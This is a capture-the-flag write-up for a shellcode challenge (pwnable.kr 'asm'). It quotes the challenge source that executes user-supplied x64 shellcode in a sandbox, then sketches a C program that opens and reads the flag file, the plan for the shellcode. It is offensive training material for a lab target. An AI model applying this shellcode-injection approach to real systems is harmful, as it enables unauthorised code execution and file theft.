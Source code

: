 # Asm

For this challenge we have to write some shellcode. If you don't know what this is, it's machine code used to exploit buffer overflows, commonly created to spawn a shell. We'll work locally to save time.

Let's read the code:

```c
char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
memset(sh, 0x90, 0x1000);
memcpy(sh, stub, strlen(stub));

int offset = sizeof(stub);
printf("give me your x64 shellcode: ");
read(0, sh+offset, 1000);

alarm(10);
chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
sandbox();
((void (*)(void))sh)();
```

We have 1000 bytes to play with, which are read to our buffer and then ran.

This is going to be easier than a real scenario because there's no need to figure out the offset between the buffer and the return address.

In reality we would also commonly need to change instructions in our assembly in order to remove any null bytes from the machine code, which are usually a flag for string copy functions to stop reading.

Another thing to notice is that the name of the flag file is 231-byte long:

```
this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
```

We have to take care not to make our shellcode too big so we can fit this name there or use some trick to input the name via `stdin`. We'll do the first for completeness and the second is left as an exercise.

The code also informs us that only open, read and write syscalls are available in our sandbox.

Let's write our program then:

```c
#include <fcntl.h>
#include <unistd.h>

char *name = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong";

void main() {
    char flag[100];
    read(open(name, O_RDONLY), flag, 100);
    write(1, flag, 100);
}
```
